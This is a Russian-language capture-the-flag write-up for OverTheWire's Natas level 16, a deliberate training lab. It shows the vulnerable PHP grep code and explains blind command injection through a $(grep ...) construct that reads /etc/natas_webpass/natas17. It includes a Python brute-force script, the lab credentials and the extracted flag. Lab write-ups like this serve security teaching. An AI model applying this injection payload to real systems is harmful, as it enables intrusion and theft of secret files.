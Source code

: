 # NATAS_16 WriteUp
:computer: Host: http://natas16.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas16  
:key: Password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

:triangular_flag_on_post: Flag: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
 
- [NATAS\_16 WriteUp](#natas_16-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом
![Скриншот веб-приложения](./img/natas16/natas16_0.png)

Ввод слова **test** возвращает вот такую реакцию
![Скриншот веб-приложения](./img/natas16/natas16_1.png)

Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
Веб-приложение фильтрует символы, с помощью которых мы могли бы внудрить свою команду на исполнение (по аналогии с natas10)
```php
if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    }
```

Значит, необходимо найти способ заставить команду grep прочесть файл с флагом (в данной лабораторной флаг находится в **/etc/natas_webpass/natas17**)

Сделать это можно, если встроить внутрь ещё одну команду bash с помощью конструкции ``$(command)`` методом брутфорса  
Будем ориентироваться на два состояния веб-приложения - **обычную** выдачу и **пустую** выдачу  

Для начала подберём удобное слово, с которым легко будет определить **обычную** выдачу  
Таким словом стала строка ``payload`` - всего два слова в выдаче!
![Выдача обычная](./img/natas16/natas16_2.png)

Перебор планируется за счёт следующей конструкции
```bash
grep -i payload$(grep ^$char /etc/natas_webpass/natas17) dictionary.txt
```

Перебирая \$char мы, в случае подбора очередного символа, на выходе внутренней команды получим строку      
Эта строка прибавится к слову payload, и поиск по **dictionary.txt**  гарантировано выдаст пустой список  
А в случае, если символ ``$char`` не был угадан, к слову **payload** не прибавится ничего, и выдача получится **обычной**

Нам потребуется скрипт, который выполнит за нас перебор
```python
import requests

url = "http://natas16.natas.labs.overthewire.org/"
auth = ("natas16", "TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V")
alph = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
flag = ""

while len(flag) < 32:
    for char in alph:
        data = {"needle":f"payload$(grep ^{flag}{char} /etc/natas_webpass/natas17)","submit":"Search"}
        r = requests.get(url=url, params=data, auth=auth)
        if "payload's" not in r.text:
            flag += char
            print(flag)
            break
```


Полученный флаг: XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd
